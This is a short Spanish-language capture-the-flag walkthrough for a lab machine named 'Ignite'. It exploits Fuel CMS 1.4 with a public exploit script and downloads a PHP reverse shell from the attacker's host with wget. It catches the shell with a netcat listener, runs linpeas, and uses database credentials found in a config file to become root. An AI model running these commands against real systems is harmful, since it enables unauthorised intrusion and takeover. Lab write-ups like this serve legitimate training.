




# Ignite

`searchsploit` fuel cms 1.4
`searchsploit -p php/webapps/50477.py`
`python3 50477.py -u http://10.10.180.42`
Accedemos a www-data mediante el script, ahora nos lanzaremos una revshell

En nuestro kali en /path/ignite:
`python3 -m http.server`
Desde el script nos traemos el archivo con la revshell:
`wget http://10.8.63.150:8000/shell.php`
Nos ponemos a la escucha en kali con netcat
`nc -nlvp 4444`
Ejecutamos el archivo php desde la máquina víctima:
`php shell.php`
**www-data**

## Escalada

Pasamos por *python3 http.server* el script *linpeas.sh* (/usr/share/peass/linpeass.sh), le damos permisos de ejecución en la máquina víctima y lo ejecutamos para que nos diga como poder escalar
En el archivo */var/www/html/fuel/application/config/database.php* sugerido en:

Encontramos credenciales

`su root` (mememe)
**root**
